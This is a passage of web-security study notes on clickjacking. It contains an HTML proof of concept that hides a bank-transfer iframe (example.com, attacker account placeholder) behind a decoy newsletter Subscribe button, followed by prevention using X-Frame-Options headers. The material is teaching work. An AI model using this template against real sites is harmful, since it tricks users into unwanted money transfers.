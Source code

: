 ```html
 <div id="decoy">
 <h3>Welcome to my site!</h3>
 <h3>This is a cybersecurity newsletter that focuses on bug
bounty news and write-ups! 
 Please subscribe to my newsletter below to receive new
cybersecurity articles in your email inbox!</h3>
 <form action="/subscribe" method="post">
 <label for="email">Email:</label>
 <br>
 <input type="text" id="email" value="Please enter your email!">
 <br><br> /*carefully position the iframe so the Transfer Balance button sits directly on top of this Subscribe button, using new lines created by HTML’s line break tag*/
 <input type="submit" value="Submit">
 </form>
 </div>
 <iframe id="victim-site"
 src="https://www.example.com/transfer_money? 
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```

so if we set the opacity back to 1, You can see that the Transfer Balance button is located directly on top of the Subscribe to Newsletter button

![](../../Media/Web%20AppSec%20Images/Pasted%20image%2020240221221606.png)

Once we reset the opacity of the `iframe` to opacity:0.00001 to make the sensitive form invisible, the site looks like a normal newsletter page
![](../../Media/Web%20AppSec%20Images/Pasted%20image%2020240221221720.png)

If the user is logged into the banking site, they’ll be logged into the `iframe` too, so the banking site’s server will recognize the requests sent by the `iframe` as legit. When the user clicks the seemingly harmless button, they’re executing a balance transfer on `example.com`!
==This is a simplified example. In reality, payment applications will not be implemented this way==, because it would violate data security standards

Another thing to remember is that the ==presence of an easy-to-prevent vulnerability on a critical functionality==, like this scenario, is a symptom that the application does not follow the best practices of secure development, This example application is likely to contain other vulnerabilities, and you should test it extensively.
# Prevention
Two conditions must be met for a clickjacking vulnerability to happen:
1. the vulnerable page has to have functionality that executes a state-changing action on the user’s behalf like (changing the user’s account settings )
2. the vulnerable page has to allow itself to be framed by an `iframe` on another site

pages are frameable by default, but The HTTP response header `X-Frame-Options` lets web pages indicate whether the page’s contents can be rendered in an `iframe`
This header offers two options: `DENY `and `SAMEORIGIN`, If a page is served with the `DENY` option, it cannot be framed at all. The `SAMEORIGIN` option allows framing from pages of the same origin: pages that share the same protocol, host, and port.
```
X-Frame-Options: DENY 
X-Frame-Options: SAMEORIGIN
```
